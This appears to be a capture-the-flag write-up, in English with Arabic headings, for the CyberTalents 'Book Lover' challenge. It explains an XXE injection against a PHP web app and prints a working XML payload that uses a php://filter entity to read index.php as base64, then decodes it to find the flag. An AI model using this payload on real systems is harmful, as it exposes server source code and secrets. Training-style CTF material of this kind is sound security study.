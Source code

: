 # 🛡️ CyberTalents Challenge Name:Book Lover

## 🔍 Challenge Summary
## Challenge Name:Book Lover
We are given a target web app that processes user input via POST requests. While experimenting, we discovered the backend executes part of the input dynamically using PHP.

Upon deeper testing, we confirmed the server is vulnerable to **XXE injection** with access to `php://filter`, which allows reading the PHP source code of server-side files, base64-encoded.

---

## 🚀 Exploitation Steps | خطوات الاستغلال

### 1️⃣ Upload the XML Payload | رفع ملف XML يحتوي على الحمولة

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
  <data>&xxe;</data>
</root>
```


2️⃣ Copy the Base64 Output | نسخ الإخراج المشفر
Once the payload is submitted, you will see a long base64-encoded string in the output.

3️⃣ Decode the Base64 | فك تشفير البايس 64
Use any base64 decoder:

🔹 Online: https://www.base64decode.org
🔹 Or via terminal:
```
echo "PASTE_BASE64_HERE" | base64 -d
```
4️⃣ Analyze the Decoded PHP Code | تحليل الكود بعد فك التشفير
After decoding the output, you’ll see the actual source code of index.php.

Search inside it for keywords like:
$flag = '********';
🎉 The flag is found! Mission accomplished.

